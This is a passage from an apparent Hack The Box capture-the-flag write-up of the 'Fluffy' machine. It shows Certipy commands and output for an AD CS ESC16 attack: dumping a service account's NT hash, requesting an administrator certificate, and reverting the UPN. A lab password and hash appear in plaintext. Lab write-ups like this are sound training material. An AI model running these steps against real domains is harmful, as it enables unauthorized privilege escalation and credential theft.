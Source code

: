 ```
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
File 'ca_svc.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

fcoomans@kali:~/htb/fluffy$ export KRB5CCNAME=ca_svc.ccache

fcoomans@kali:~/htb/fluffy$ klist
Ticket cache: FILE:ca_svc.ccache
Default principal: ca_svc@FLUFFY.HTB

Valid starting       Expires              Service principal
07/16/2025 15:16:56  07/17/2025 01:16:56  krbtgt/FLUFFY.HTB@FLUFFY.HTB
        renew until 07/17/2025 15:16:28
```

**Step 4: Request a certificate as the "victim" user from _any suitable client authentication template_ (e.g., "User") on the ESC16-vulnerable CA.**

```
fcoomans@kali:~/htb/fluffy$ certipy-ad req -k -dc-ip '10.10.11.69' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 18
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@fluffy.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

**Step 5: Revert the "victim" account's UPN.**

```
fcoomans@kali:~/htb/fluffy$ certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

